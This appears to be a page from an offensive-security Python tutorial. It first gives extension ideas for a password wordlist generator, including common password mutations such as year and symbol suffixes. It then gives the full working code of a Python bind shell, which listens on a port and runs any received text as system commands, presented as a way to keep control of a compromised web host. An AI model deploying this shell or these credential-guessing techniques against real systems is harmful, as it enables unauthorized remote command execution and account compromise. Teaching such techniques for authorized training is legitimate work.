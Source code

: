 For the extra adventurous student, here is a list of ideas for further extension of the tool:

- Add a `--output` / `-o` argument that lets us define an output file to print to instead of the console (something like `with open('path.txt', 'w') as wr:` and `wr.write(word)`).

- Add common password mutations to the output, e.g., Capitalized, lowercase, UPPERCASE, and with various bits appended like the current and recent years, random numbers or symbols, e.g., 2019, 1!, 2!, 3!, 01, 123. `Summer2021!` and similar variations are depressingly frequent passwords.

- Add a `--depth` / `-d` argument specifying the _crawl depth_ of the script. This implies the ability to grab not only words but also URLs on the webpage(s), check if they are within scope (e.g., domain), and add them to a list of pages to crawl next.

- The program currently crashes if a minimum length of 10 or higher is specified. Try to figure out why and fix it (hint: check out that last for-loop).


# A Simple Bind Shell

* * *

Upon gaining access to an internal web service with the credentials we generated using the previous tool, we can get remote code execution on the web host. Trying to use our go-to reverse shells mysteriously does not seem to work, but we discover that we can execute arbitrary python scripts. Let us abuse that discovery by implementing and running our own Python `bind shell`.

A bind shell is at its core reasonably simple. It is a process that binds to an address and port on the host machine and then listens for incoming connections to the socket. When a connection is made, the bind shell will - repeatedly - listen for bytes being sent to it and treat them as raw commands to be executed on the system in a subprocess. Once it has received all bytes in chunks of some size, it will run the command on the host system and send back the output. A very naive implementation of such a bind shell is this:

#### A Simple Bind Shell

```python
import socket
import subprocess
import click

def run_cmd(cmd):
    output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
    return output.stdout

@click.command()
@click.option('--port', '-p', default=4444)
def main(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', port))
    s.listen(4)
    client_socket, address = s.accept()

    while True:
        chunks = []
        chunk = client_socket.recv(2048)
        chunks.append(chunk)
        while len(chunk) != 0 and chr(chunk[-1]) != '\n':
            chunk = client_socket.recv(2048)
            chunks.append(chunk)
        cmd = (b''.join(chunks)).decode()[:-1]

        if cmd.lower() == 'exit':
            client_socket.close()
            break

        output = run_cmd(cmd)
        client_socket.sendall(output)
```